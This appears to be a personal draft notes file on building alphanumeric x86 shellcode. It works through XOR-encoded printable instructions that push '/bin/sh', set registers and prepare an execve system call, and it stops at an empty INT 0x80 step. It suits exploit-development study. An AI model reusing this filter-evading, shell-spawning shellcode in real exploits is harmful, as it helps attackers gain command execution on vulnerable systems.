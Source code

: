 # Draft

## Reference
- http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes
- turn on markdown syntax in VIM: ```au BufRead,BufNewFile *.md set filetype=markdown```

## Procedures
### [P1] ECX: set to 0
```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * 48
P:              PUSH EAX
Y:              POP ECX
```

### [P2] EDX: set to 0
```
P:              PUSH EAX
Z:              POP EDX
```

### [P3] PUSH 0 ('\0' for string "/bin/sh")
```
R:              PUSH EDX
```

### [P4] PUSH 0x68732f2f

INPUT:
0   0   0   0   0   0   3   0

XOR-1:
X       C       C       J
5   8   4   3   4   3   4   A

XOR-2:
0       0       l       U
3   0   3   0   6   c   5   5

TARGET:
6   8   7   3   2   f   2   f

```
j 0:            PUSH 0x30
X:              POP EAX
5 J C C X:      XOR EAX, $0x5843434A
5 U l 0 0:      XOR EAX, $0x30306c55
P:              PUSH EAX
```

### [P5] PUSH 0x6e69622f

INPUT:
0   0   0   0   0   0   3   0

XOR-1:
Y       Y       R       J

XOR-2:
7       0       0       U

TARGET:
6   e   6   9   6   2   2   f

```
j 0:            PUSH 0x30
X:              POP EAX
5 J R Y Y:      XOR EAX, $0x5959524A
5 U 0 0 7:      XOR EAX, $0x37303055
P:              PUSH EAX
```

### [P6] MOV EBX, ESP
Push ESP into stack, then push "POP EBX" instruction into stack, where EIP will point to.

INPUT:
0   0   0   0   0   0   3   0

XOR:
4   F   4   F   4   F   6   B

TARGET:
4   F   4   F   4   F   5   B

- 4F: DEC EDI (NO-OP)
- 5B: POP EBX

```
T:              PUSH ESP
j 0:            PUSH 0x30
X:              POP EAX
5 k O O O:      XOR EAX, $0x4F4F4F6B
P:              PUSH EAX
```


### [P0] EAX: set to 11 (0x0b)
```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * (48-11) = 37
```

### [P8] INT 0x80
